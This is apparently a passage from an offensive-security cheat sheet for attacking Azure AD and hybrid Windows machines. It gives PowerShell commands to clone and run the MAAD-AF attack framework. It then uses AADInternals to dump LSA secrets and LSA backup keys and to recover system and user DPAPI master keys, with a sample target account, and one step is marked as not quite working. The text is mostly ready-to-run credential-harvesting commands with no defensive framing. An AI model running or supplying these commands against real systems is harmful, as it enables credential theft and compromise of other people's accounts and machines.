 
### Automated Attack Framework - MAADAF
```powershell
git clone https://github.com/vectra-ai-research/MAAD-AF.git
cd MAAD-AF
./MAAD_Attack.ps1
```

## Harvesting Credentials 


### Hybrid Machine LSA Dump with AADInternals
```powershell
Get-AADIntLSASecrets
```

### AADInternals - Get LSA backup keys
```powershell
$backup = Get-AADIntLSABackupKeys
$rsa = $backup[0]
$legacy = $backup[1]
$user = 'targettim@shrine.cloud'
```

### AADInternals - Get System Master Keys using LSA Backup
```powershell
# Get the LSA backup keys
$backup = Get-AADIntLSABackupKeys
```

### AADInternals - Save the private key to a variable
```powershell
$backup | where name -eq RSA
```

### AADInternals - Get system master keys (not quite working, key is null)
```powershell
Get-AADIntSystemMasterkeys -SystemKey $rsa.key
```

### AADInternals - Get User Master Keys using LSA Backup
 ```powershell
 # Get the LSA backup keys
 $lsabk_keys=Get-AADIntLSABackupKeys
 # Save the private key to a variable
 $rsa_key=$lsabk_keys | where name -eq RSA
 # Get user's master keys
 Get-AADIntUserMasterkeys -UserName $user -SID $SID -SystemKey $rsa_key.key
```


### AADInternals - Get user's master keys with username and password
```powershell
Get-AADIntUserMasterkeys -UserName $user -SID $SID -Password "password"
```
